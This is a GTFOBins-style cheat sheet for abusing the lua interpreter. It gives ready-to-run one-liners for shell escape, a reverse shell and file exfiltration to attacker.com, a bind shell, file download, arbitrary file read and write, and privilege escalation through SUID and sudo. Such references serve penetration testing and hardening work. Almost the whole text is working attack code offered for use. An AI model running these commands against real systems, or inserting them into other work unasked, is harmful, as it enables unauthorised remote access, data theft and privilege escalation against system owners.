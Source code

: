 # GTFOBin: lua

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
lua -e 'os.execute("/bin/sh")'
```

## Non-interactive reverse shell

It can send back a non-interactive reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell. This requires `lua-socket` installed.

```
export RHOST=attacker.com
export RPORT=12345
lua -e 'local s=require("socket");
  local t=assert(s.tcp());
  t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
  while true do
    local r,x=t:receive();local f=assert(io.popen(r,"r"));
    local b=assert(f:read("*a"));t:send(b);
  end;
  f:close();t:close();'
```

## Non-interactive bind shell

It can bind a non-interactive shell to a local port to allow remote network access.

Run `nc target.com 12345` on the attacker box to connect to the shell. This requires `lua-socket` installed.

```
export LPORT=12345
lua -e 'local k=require("socket");
  local s=assert(k.bind("*",os.getenv("LPORT")));
  local c=s:accept();
  while true do
    local r,x=c:receive();local f=assert(io.popen(r,"r"));
    local b=assert(f:read("*a"));c:send(b);
  end;c:close();f:close();'
```

## File upload

It can exfiltrate files on the network.

Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires `lua-socket` installed.

```
RHOST=attacker.com
RPORT=12345
LFILE=file_to_send
lua -e '
  local f=io.open(os.getenv("LFILE"), 'rb')
  local d=f:read("*a")
  io.close(f);
  local s=require("socket");
  local t=assert(s.tcp());
  t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
  t:send(d);
  t:close();'
```

## File download

It can download remote files.

Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires `lua-socket` installed.

```
export LPORT=12345
export LFILE=file_to_save
lua -e 'local k=require("socket");
  local s=assert(k.bind("*",os.getenv("LPORT")));
  local c=s:accept();
  local d,x=c:receive("*a");
  c:close();
  local f=io.open(os.getenv("LFILE"), "wb");
  f:write(d);
  io.close(f);'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
lua -e 'local f=io.open("file_to_write", "wb"); f:write("DATA"); io.close(f);'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
lua -e 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which lua) .

lua -e 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo lua -e 'os.execute("/bin/sh")'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which lua) .

./lua -e 'os.execute("/bin/sh")'
```
